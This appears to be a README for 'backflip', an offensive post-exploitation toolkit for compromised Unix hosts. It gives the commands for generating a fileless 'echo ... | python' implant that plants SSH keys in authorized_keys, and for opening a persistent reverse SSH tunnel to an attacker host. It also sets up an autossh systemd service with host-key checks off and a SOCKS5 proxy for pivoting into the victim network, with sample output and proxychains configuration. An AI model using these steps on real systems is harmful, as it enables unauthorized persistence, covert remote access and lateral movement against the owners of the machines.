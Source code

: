 # WTF

These are backflip scripts used to create ssh backflips. This allows
for a connection outbound from a compromised unix system to an attack
machine that provides a reverse tunnel back into the attack machine's
ssh server. It deploys keys to make this all possible.

# Things to Take Note of
* Port numbers for both reverse port forwards and socks proxies will
  need to be managed out of band. Implement a process and use it.
* You are running an additional ssh server that your victims ssh
  to. This can be abused by somebody who has control of the victim
  machine. While shell access is disabled, and only reverse forwarding
  will work, one should be aware of this caveat.


# Components
The structure here is a little confusing at first. Because we don't
want to leave a script file on disk, we give cut-n-paste commands that
are of the form `echo xxx|python`. The cut-n-paste command is
generated from the scripts that are indirectly run. This is important
for the operator to understand what these scripts do on target, but
the the scripts the operator directly uses are `make_backflip.py` and
`install_autossh_backflip.py`

## Components Directly Run

### `make_backflip.py`
runs on the attack machine that gives the cut-n-paste command to
run on victim

### `install_autossh_backflip.py`
runs on attack machine and installs and starts a socks proxy into victim network

## Components Indirectly Run

### `implant.py`
embedded in `install_implant.py` that daemonizes and makes ssh
connections. Note that the current implementation uses
`subprocess.Popen` with `shell=True`, which will cause an `execve`
with `sh -c` to appear in logs.

### `install_implant.py`
template of script that will be encoded and outputed as the
cut-n-paste command by `make_backflip.py`

# How to Setup a Backflip

In our examples, our victim is 10.0.0.1 and our proxy01 external IP is
at 10.50.0.1. We setup our reverse port-forwards are on ports 4000
onwards and our socks proxies are on ports 5000 onwards

1. Get a shell on victim host

1. run `make_backflip.py` on the attack host

	The invocation is `make_backflip.py <user> <victim-ip> <attacker-ip> <reverse listen port>`.
	Assuming the victim username is ubuntu, attack and victim ip given
	above, and listen port 4000:

		sudo ./make_backflip.py ubuntu 10.0.0.1 10.50.0.1 4000

	This will make port 4000 on proxy01 with a remote connection to
	10.0.0.1 on 22 when the command that is outputed is run on the
	victim. This will also create a keypair on the attack machine in
	`/opt/backflip/keys` with the format `<username>-<victim>-<attack>`.
	Note that you will need to allocate a new port with each blackflip
	created.

1. run the command that `make_backflip.py` outputs on the victim

   You should see output like:

		[+] keypath: /home/ubuntu/.ssh/id_rsab
		[+] wrote private key: /home/ubuntu/.ssh/id_rsab
		[+] wrote public key: /home/ubuntu/.ssh/id_rsab.pub
		[+] wrote to ~/.ssh/authorized_keys
		[+] started daemonized tunnel
		[*] waiting one minute for tunnel to come up...
		[+] tunnel running

1. run `install_autossh_backflip.py` on the attack host

	`install_autossh_backflip.py` will create a systemd service to initiate the ssh
	connection to the victim and reverse port-forward a connection to
	their ssh daemon on the attack system. Additionally, it will setup a
	SOCKS5 proxy listening on a port you specify. As above, it is
	important to note which SOCKS port you are using and each backflip
	will require a unique one.

	In this example, we setup a persistant ssh connection with reverse
	forward as well as a socks proxy on port 5000:

		sudo ./install_autossh_backflip.py 4000 5000 /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1
		contents:
		[Unit]
		Description=ssh backflip to 4000
		After=network.target auditd.service

		[Service]
		ExecStart=/usr/bin/autossh -oServerAliveInterval=30 -oServerAliveCountMax=5 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no -oBatchMode=yes -n -N -D :5000 -i /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 -p4000 ubuntu@localhost

		[Install]
		WantedBy=multi-user.target

		Created symlink /etc/systemd/system/multi-user.target.wants/backflip-4000-5000.service → /etc/systemd/system/backflip-4000-5000.service.

	You can see that the proxy and ssh backflip are up:
	
		$ sudo netstat -lntp | grep -E "4000|5000"
		tcp        0      0 0.0.0.0:4000            0.0.0.0:*               LISTEN      20612/sshd: flip
		tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      20693/ssh
		tcp6       0      0 :::4000                 :::*                    LISTEN      20612/sshd: flip
		tcp6       0      0 :::5000                 :::*                    LISTEN      20693/ssh

	Notice that ssh is listening on 0.0.0.0, meaning that these services
	are available throughout the subnet.

# How to Use a Backflip

There are two primary ways to use a backflip: shell access and proxy access.

## Get a Shell

`/opt/backflips/keys` contains the necessary  ssh keypairs to ssh into
the victim machine. However, the permissions on the directory are such
that a normal user cannot use them. Each key to be used must be copied
to your home directory with permissions and ownership as SSH
expects. In our example:
```
sudo cp /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 ~/.ssh/
sudo chown $UID:$(id -g) ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
chmod 600 ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
```

Note, the user will be the same user as used above to setup the
backflip.

The following will reward you with a shell on the victim:
```
ssh -i ~/.ssh/ubuntu-10.0.0.1-10.50.0.1 -p 4000 ubuntu@127.0.0.1
```

## Use a SOCKS5 Proxy

In our example above, there is a SOCKS5 proxy running on
port 5000. The most practical way to use it is with a browser plugin
such as foxyproxy or switchyomega. However, it is also available for
command line tools with the help of a proxy LD_PRELOAD library such as
`proxychains` or `tsocks`.

For example, a `proxychains.conf` in the current working directory
with contents as such:

	strict_chain
	# Quiet mode (no output from library)
	#quiet_mode
	proxy_dns 

	# Some timeouts in milliseconds
	tcp_read_time_out 15000
	tcp_connect_time_out 8000

	[ProxyList]
	socks5  127.0.0.1 5000

We can verify that our SOCKS proxy works with curl as we see our
victim IP instead of our attack IP:

```
$ proxychains curl ifconfig.me; echo
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-request| ifconfig.me 
|S-chain|-<>-127.0.0.1:5000-<><>-4.2.2.2:53-<><>-OK
|DNS-response| ifconfig.me is 216.239.32.21
|S-chain|-<>-127.0.0.1:5000-<><>-216.239.32.21:80-<><>-OK
10.0.0.1
```
